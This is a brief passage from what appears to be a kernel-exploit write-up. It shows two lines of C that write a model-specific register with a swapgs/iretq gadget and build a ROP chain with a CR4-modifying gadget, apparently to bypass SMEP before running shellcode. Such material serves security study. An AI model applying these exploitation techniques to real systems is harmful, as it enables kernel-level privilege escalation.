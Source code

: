 ![Stack](/images/wrmsr/stack.png)  

And the C code for this part of the exploit:  
```c
WriteMSR(MsrIndex, kernelAddress.gadget_swapgs_iretq);
__rop(shellcode, kernelAddress.gadget_mov_cr4_rax_add_rsp_20h_pop_rbx_ret);
```
